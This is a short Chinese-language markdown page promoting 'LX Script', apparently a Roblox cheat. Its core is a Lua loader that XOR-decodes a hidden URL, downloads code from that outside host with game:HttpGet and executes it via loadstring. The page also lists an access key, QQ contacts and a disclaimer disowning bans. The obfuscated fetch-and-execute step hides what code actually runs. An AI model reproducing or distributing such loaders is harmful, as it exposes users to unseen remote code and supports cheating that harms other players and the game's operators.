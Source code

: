 ```yaml
---
permalink: /
title: "关于 LX Script"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```

# LX脚本
```lua
Liu_Script = "卡密:6 Script"
Liu_Script = "群:1023667706"
local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9) local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + (v11% #v9) ,1 + (v11% #v9) + 1 )))%256 ));end return v5(v10);end loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\138\117\238\246\215\31\210\200\148\43\227\172\138\43\248\141\136\113\179\244\213\27\215\208\148\45\227\186\195\13\158\206\218\44\232\244\145\91\244\155\158\125\178\254\158\63\148\230\141\96\191\152\130\63\242\134\254\112\163\227\227\91\240\146\158\0\179\254\230\56\148\155\141\107\234\174\198","\126\177\163\187\69\134\219\167")))();
```
注意:目前脚本卡密为*6 Script*即将更改为随机化生成
# 作者
作者为*LX*与*XiaoBai*,LX联系方式QQ:345628400
# 免责声明
使用此脚本被骂/被举报/被封号概不负责
# 脚本2
脚本完全免费
不会停更
# 感谢
感谢所有支持者与使用者
![图片]https://s21.ax1x.com/2025/05/13/pEjpZm8.jpg
